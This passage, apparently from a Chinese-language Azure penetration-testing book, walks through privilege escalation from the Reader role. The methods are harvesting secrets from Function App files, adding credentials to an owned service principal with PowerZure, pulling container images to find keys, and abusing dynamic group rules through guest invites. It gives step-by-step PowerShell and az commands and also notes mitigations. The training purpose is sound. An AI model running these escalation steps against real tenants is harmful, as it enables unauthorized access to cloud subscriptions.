Enabled                   : True
EnabledHostNames          : {azurepentesting-function.azurewebsites.net, azurepentesting-function.scm.azurewebsites.net}
AvailabilityState         : Normal

[Truncated]
```

作为订阅中的 Reader 角色，我们对 Function App 的操作选项有限，但可用的选项可能非常有影响力。本节将介绍两个选项：

- **读取 Function App 代码**
- **读取应用文件**

读取 Function App 代码是一个相当简单的过程。作为 Reader，我们可以导航到各个 Function App，进入 **Functions** 部分，并查看各个函数：



图 4.31 – 访问 Function App 函数

进入函数菜单后，我们可以导航到 **Code + Test** 部分，该部分允许我们查看函数的源代码。任何做过源代码审查的人都知道，开发人员为了应用程序运行，经常会在代码中隐藏一些东西。这通常会导致注释、密码和非常脆弱的函数很容易被任何有权访问代码的人识别出来。

作为具有 Reader 访问权限的攻击者，我们可以查看这段代码，以提取有关应用程序的有价值信息，并可能收集可用于横向移动的凭据。

这里值得注意的是，能否读取 Function App 中的代码取决于所使用的开发方法和部署类型。例如，如果在本地（而非门户中）进行开发并使用 Web Deploy 部署，则代码将不可见。对于 C# 等编译语言也是如此：



图 4.32 – 易受攻击的函数示例

Function App 中另一个有价值的信息来源是 Function App 的 **App files** 边栏选项卡。虽然大多数基本 Function App 只包含一个 `host.json` 文件，但我们已经看到多个函数在其函数应用程序中暴露了更敏感的文件。

在此示例中，我们可以看到应用文件中有一个 `appsettings.json` 文件，并且我们能够看到一个客户端 ID 和机密，可用于以 Azure AD 应用注册身份进行身份验证：



图 4.33 – 易受攻击的应用文件示例

通常，这些凭据最终会被硬编码到函数和设置文件中，因为开发人员可能会在应用程序的身份管理方面走捷径。作为一种更安全的选择，开发人员应考虑将托管身份与 Function App 配合使用。

作为攻击者，我们现在拥有了可用于向 Az PowerShell 模块和 Azure CLI 进行身份验证的应用注册凭据。此示例不在我们的测试环境中，但提供该示例是为了让你了解遇到这些凭据时可以做些什么。

在以下示例中，我们使用在 Function App 中发现的凭据向订阅进行身份验证：

- 1. 首先，我们将使用以下命令将从 Function App 收集的凭据存储为变量。在凭据提示符下，我们输入从 Function App 获取的客户端 ID 和机密：

  ```powershell
  PS C:\> $credential = Get-Credential
  ```

  以下是其在 PowerShell 中的显示效果：

  

  图 4.34 – Get-Credential 提示符示例


2. 然后，我们使用以下 PowerShell 命令，通过之前定义的变量对 Azure 订阅进行身份验证。请注意，我们需要将租户参数改为相应的租户 ID：

```powershell
PS C:\> Connect-AzAccount -ServicePrincipal -Credential $credential -Tenant 40d5707e-b434-4f10-9d7d-21842b956935
```

3. 完成身份验证后，可以通过以下 PowerShell 命令确认访问权限：

```powershell
PS C:\> Get-AzContext
```

也可以使用以下 Azure CLI 命令完成同样操作，将 `--u` 参数替换为你的客户端 ID，将 `--tenant` 参数替换为你的租户 ID，以对租户进行身份验证：

```powershell
PS C:\> az login --service-principal -u d361f31d-844b-4a8d-9abc-948aaee241b4 --tenant 40d5707e-b434-4f10-9d7d-21842b956935
```

请注意，服务主体需要被分配订阅才能进行身份验证。上述命令还会提示输入密码。也可以将密码（客户端机密）作为命令行参数传入。

### 利用配置错误的服务主体提升权限

在寻找权限提升机会时，不仅要检查现有用户的角色分配，还要关注其他可被利用的错误配置。一个例子是检查具有读者角色的用户是否拥有某个服务主体的所有权，而该服务主体拥有的权限比读者用户更多。

*图 4.35* 展示了这种攻击的工作原理：



图 4.35 – 利用配置错误的服务主体

具体细节如下：

1. `readeruser` 最初仅拥有对 Azure 资源的只读权限。

2. 该用户为其正在构建的应用程序注册了一个服务主体（默认情况下，Azure AD 租户的所有成员用户都可以注册应用程序）。此外，由于该用户注册了该应用程序，*他们自动成为所有者*（服务主体账户的所有权权限允许用户设置可用于身份验证的凭据（证书和机密），正如我们刚刚演示的那样）。

3. 具有更高权限的管理员将贡献者角色或更高权限的角色分配给 `readeruser` 注册的应用程序。

4. 这为 `readeruser` 的凭据提供了一条利用途径，通过向应用添加新机密来提升权限，因为他们是该应用的所有者。

5. 然后可以使用应用 ID 和新机密来提升权限。

在下一个动手练习中，我们将使用 PowerZure 中的一个强大功能来识别应用注册的所有者，并向应用添加凭据。`Get-AzureAppOwner` 命令是 PowerZure 的功能之一。它会递归查看 Azure AD 中每个已注册的应用程序并列出其所有者。输出显示 `readeruser` 被指定为名为 `customapp` 的应用程序的所有者。所有权允许对应用拥有不同权限，包括添加新机密。虽然这不是读者角色的固有权限，但应用程序所有权权限可以被分配给任何账户：



图 4.37 – 读者账户拥有的示例应用

3. 使用以下命令向 `customapp` 添加一个新机密，以便我们使用该应用进行身份验证。请记住，我们是以被分配了读者角色的用户身份执行所有这些操作的：

```powershell
PS C:\> Add-AzureSPSecret -ApplicationName customapp -Password myPassword456
```

太棒了！新机密已成功添加。这意味着我们可以使用刚刚设置的机密作为该服务主体进行身份验证，然后探索其权限。请记下显示的应用 ID 和租户 ID，因为我们需要这两项来以服务主体身份进行身份验证（两者均在图 4.38 中用箭头标出）：



图 4.38 – `Add-AzureSPSecret` 的示例输出

### **重要说明**

尽管对应用注册修改有明确的监控，但通过手动分析可能很难检测到，尤其是在可能存在数千个服务主体的环境中。此外，添加凭据不会影响已为服务主体配置的现有机密。这意味着任何使用服务主体现有机密的应用程序将继续无中断地正常工作。

从蓝队或防御角度来看，Azure AD 审核日志会将这些事件记录为活动类型 **更新应用程序 – 证书和机密管理**。Azure Resource Graph 和应用程序变更分析在调查时也很有帮助。

4. 切换到 WSL，并使用以下命令以服务主体身份进行身份验证。将 `APP_ID` 替换为你在*第 3 步*中记下的应用 ID。将 `TENANT_ID` 替换为你在*第 3 步*中记下的租户 ID。按*回车*：

```bash
PS C:\> bash
pentestadmin@PentestVM:~# sudo su -
root@PentestVM:~# az login --service-principal --username APP_ID --password myPassword456 --tenant TENANT_ID
```

以下是该命令及其输出的截图：



图 4.39 – 使用凭据进行的示例 Az CLI 登录

你现在已作为服务主体登录。接下来，我们将验证该服务主体拥有的权限。

5. 使用以下命令验证服务主体的角色分配和范围。将 `APP_ID` 替换为你在*第 3 步*中记下的应用 ID：

```bash
root@PentestVM:~# az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}'
```

你可以看到，该服务主体在订阅范围内被分配了贡献者角色。太棒了！我们找到了一条通向角色分配的路径，该分配赋予我们的权限比当前用户更多！



虽然读者角色（Azure AD 中的全局读者和 Azure RBAC 中的读者）通常不具有服务主体的所有权权限，但请记住，Azure AD 租户中的成员用户有权注册应用程序，并且他们会自动成为其注册的应用程序的所有者。此外，偶尔也会出现将所有权权利授予用户的情况。由于这些所有权权利可能出现在任何角色级别，我们认为最好尽早处理这些问题。

读者角色始终可用的一项权限是连接并从 **Azure 容器注册表（ACR）** 拉取镜像的能力。这些权限不允许读者更改镜像，但确实允许他们查看镜像。

```bash
root@PentestVM:~# az login -u readeruser@<DOMAIN> -p myPassword123
```

以下是命令输出的截图：



图 4.41 – 使用读者账户进行的示例 Az 登录

2. 使用以下命令列出订阅中的容器注册表：

```bash
root@PentestVM:~# az acr list -o table
```

你可以看到有一个名称格式为 `acrXXXX` 的容器注册表（其中 XXXX 是部署期间随机生成的数字）。记下此名称：



图 4.42 – 示例生成的 ACR

3. 使用以下命令在 WSL 上安装 Docker：

```bash
root@PentestVM:~# apt update && apt install docker.io -y
```

4. 使用以下命令为注册表生成 Docker 登录。将 `ACR_NAME` 替换为你在*第 2 步*中记下的实际名称。另外，使用生成的令牌连接到注册表：

```bash
root@PentestVM:~# acr=ACR_NAME
root@PentestVM:~# loginserver=$(az acr login -n $acr --expose-token --query loginServer -o tsv)
root@PentestVM:~# accesstoken=$(az acr login -n $acr --expose-token --query accessToken -o tsv)
root@PentestVM:~# docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken
```

以下是该命令及其输出的截图：



图 4.43 – 示例输出

5. 使用以下命令列出容器注册表中的镜像：

```bash
root@PentestVM:~# az acr repository list -n $acr
```

你将看到一个名为 `nodeapp-web` 的单一仓库：



图 4.44 – 仓库镜像列表


8. 以管理员身份打开一个新的 PowerShell 控制台。将 **步骤 4** 中的值设为变量。将 `LOGIN_SERVER` 和 `ACCESS_TOKEN` 替换为 **步骤 4** 中的值：

   ```powershell
   PS C:\> $loginserver="LOGIN_SERVER"
   PS C:\> $accesstoken="ACCESS_TOKEN"
   ```

9. 要将镜像从注册表拉取到本地缓存，你需要使用 PowerShell 控制台（而不是 WSL）。这是因为 WSL 无法访问本地安装的 Docker 应用程序。Windows 10 的较新版本（build 18362 或更高）支持此功能，但在我们的实验室 VM 上的构建版本中尚未支持。

10. 从 PowerShell 控制台连接到容器注册表：

    ```powershell
    PS C:\> docker login $loginserver -u 00000000-0000-0000-0000-000000000000 -p $accesstoken
    ```

11. 使用以下命令将镜像从容器注册表拉取到本地缓存：

    ```powershell
    PS C:\> docker pull $loginserver/nodeapp-web:v1
    ```

以下是命令及其输出的截图：



我们可以测试此凭据以查看它是否仍然有效以及其拥有的访问级别。请记下 APP_ID、APP_KEY 和 TENANT_ID 值。

14. 切换回你已打开的 WSL 会话。使用以下命令以服务主体身份进行身份验证。将 APP_ID 替换为 *步骤 10* 中的 APP_ID 值。将 SECRET_KEY 替换为 *步骤 10* 中的 APP_KEY 值。将 TENANT_ID 替换为 *步骤 10* 中的 TENANT_ID 值。按 *Enter*：

    ```bash
    root@PentestVM:~# az login --service-principal --username APP_ID --password SECRET_KEY --tenant TENANT_ID
    ```

你现在已作为服务主体登录。接下来，我们将验证此服务主体拥有的权限。

15. 使用以下命令验证服务主体的角色分配和范围。将 APP_ID 替换为 *步骤 10* 中的 APP_ID 值：

    ```bash
    root@PentestVM:~# az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}'
    ```

你可以看到，此服务主体在订阅范围内被分配了 Contributor 角色。太棒了！我们已成功利用从容器注册表中的镜像中搜集到的凭据，将权限从 Reader 角色提升到 Contributor 角色！



在本章的这一点，你可以关闭打开的窗口，因为本章的其余部分将涵盖 Azure 门户中的场景。下一个场景将专门针对具有 Azure AD Reader 权限的用户。需要注意的一点是，下一个场景甚至可能被没有订阅的 Azure AD 用户利用。

### 利用动态组成员身份

本章的最后一部分介绍如何操作 Azure AD 账户详细信息以使账户符合动态组成员身份的条件。目前，我们经常看到动态组用于设备管理和账户的地理分组。随着越来越多的组织将 Active Directory 管理迁移到 Azure AD，这些动态组将变得更加流行。

如 *第 1 章、Azure 平台和架构概述* 中所述，动态组成员身份基于为 Azure AD 账户关联的参数设置的规则。这些规则可能简单到将来自特定城市的所有用户添加到组中。规则可以配置的方式有多种，因此在实际场景中我们可能会看到一些相当有趣的组成员身份逻辑。

对于此示例场景，我们将查看 azurepentesting 租户中的 **Dynamic Admins** 组。此组有一条规则，允许电子邮件地址中包含单词 admin 的任何用户成为该组的成员。该组还为订阅应用了 Owner 角色。以下是动态规则的示例：



图 4.50 – 示例动态组成员身份规则

虽然此 Azure AD 租户的管理员可能认为该组已适度锁定，但他们没有考虑到一个致命弱点。在我们的示例租户中，我们允许访客账户。组织需要一些外部协作选项，因此我们所有用户默认都可以邀请外部访客账户。

这次攻击的优点是，初始用户无需在订阅上拥有任何权限即可执行攻击。他们只需要能够邀请访客用户。虽然查看 IAM 权限很有帮助，但在此情况下的任何用户都可以查看一个动态组（`subscriptionOwners`）并做出一些假设。

作为具有 Azure 门户访问权限的用户，我们可以邀请一个新用户，该用户的电子邮件地址恰好包含 admin：



图 4.51 – 用户邀请屏幕

这会导致向 `admin@fosaaen.com` 账户发送邀请邮件，用户可以接受对租户的访问。

这里需要注意的一个重要步骤是需要使用现有的 Azure 账户作为邀请的收件人。你可以为特定电子邮件地址创建邀请，但该电子邮件需要在另一个租户（Microsoft 或其他）中创建 Azure 用户后，才能正式添加到你的受害租户中。此外，用户需要满足从受害租户下推的任何 MFA 和条件访问要求。

一旦访客账户添加并准备就绪，我们可以看到用户现在已应用 Owner 角色并成为动态组的成员：



图 4.52 – 动态组成员身份示例

从实用性角度来看，我们可能不会看到大量动态组被用来授予 Azure 订阅的权限。然而，我们在咨询项目中见过各种各样的客户端环境，并可以证明在 Azure AD 中实施了更奇怪的配置。

> **重要说明**
>
> 有关此攻击的更多信息，请查看 Cody Burkard 在 Mnemonic 博客上对此技术的原始博文：https://www.mnemonic.no/blog/abusing-dynamic-groups-in-azure/。

至于此问题的缓解措施，我们建议将动态组成员身份规则设置为基于用户无法控制的参数进行操作。此外，锁定访客账户访问权限以防止访客用户操作自己的账户也会有所帮助。

### 实践练习 – 清理 Owner 利用场景

在此最终练习中，我们将使用清理脚本自动删除本章场景中设置的资源。以下是本练习中将完成的任务：

- 从 GitHub 下载清理脚本。
- 运行脚本以删除为场景创建的对象和资源。

以下是完成这些任务的步骤：

1. 打开网络浏览器并浏览到 `https://portal.azure.com` 的 Azure 门户。使用 `azureadmin` 凭据登录。
2. 在 Azure 门户中，单击左上角的 Cloud Shell 图标。选择 **PowerShell**：


图 4.53 – 打开 Cloud Shell

3. 在 Cloud Shell 窗格内的 PowerShell 会话中，运行以下命令下载用于创建具有 Reader 权限的用户账户并设置所需易受攻击的工作负载的脚本。还验证下载：

   ```powershell
   PS C:\> Invoke-WebRequest http://bit.ly/reader-scenario-cleanup -O reader-scenario-cleanup.ps1
   PS C:\> Get-ChildItem
   ```

以下是其外观的截图：



图 4.54 – 下载脚本的结果

4. 运行以下命令运行下载的脚本以删除本章练习中创建的对象和资源：

   ```powershell
   PS C:\> ./reader-scenario-cleanup.ps1
   ```

等待脚本完成。完成可能需要大约 8 分钟：



图 4.55 – 运行清理脚本的结果


恭喜！您已完成本章中的所有练习场景，并成功删除了在订阅中设置的资源。

### 摘要

在本章中，我们了解了权限较低的读者（Reader）角色可以通过多种方式枚举订阅中的敏感信息。作为渗透测试人员，我们需要为各种情况做好准备，因此在这种受限角色下拥有一些权限提升选项非常有用。

在下一章中，我们将介绍攻击者如何利用 Azure IaaS 服务，以订阅参与者（Contributor）的身份在租户中提升权限。本章将重点介绍在虚拟机上执行命令的多种方式，以及如何通过基础结构服务进行横向移动。

### 延伸阅读

有关 PowerZure 函数的更多文档，请参阅以下链接：

- 信息收集函数：`https://powerzure.readthedocs.io/en/latest/functions/infogathering.html`
- 操作函数：`https://powerzure.readthedocs.io/en/latest/functions/operational.html`

以下是我们将要介绍的主要内容：

- 查看参与者（Contributor）RBAC 角色
- 理解参与者的 IaaS 权限提升目标
- 利用拥有参与者权限的 Azure 平台功能
- 从 Azure VM 中提取数据

### 技术要求

在本章中，我们将使用以下工具：

- PowerZure：`https://github.com/haussec/PowerZure`
- MicroBurst：`https://github.com/NetSPI/MicroBurst`
- Lava：`https://github.com/mattrotlevi/lava`

MicroBurst 和 PowerZure 应该已经在前面的章节中安装在您的渗透测试**虚拟机（VM）**上，但 Lava 将是本章新增的工具。本章的所有示例都可以使用我们在*第 2 章“构建您自己的环境”*中创建的渗透测试虚拟机，或者使用配置相当的 Windows 桌面来执行。

### 查看参与者（Contributor）RBAC 角色

正如我们在本书第一章中简要提到的，内置的参与者（Contributor）RBAC 角色授予完全访问权限来管理*分配范围内的所有资源*（管理组、订阅或资源组），但限制其向其他用户或身份分配权限。

鉴于该角色的访问级别，我们的重点不仅在于使用权限，还在于如何利用这些权限来利用用户的错误配置，以达到提升权限和横向移动的目的。我们将通过利用 Azure 平台功能来实现这一点，这些功能可用于在 IaaS 工作负载（如 VM 和**虚拟机规模集（VMSS）**）上运行操作系统级命令/脚本。

**重要说明**

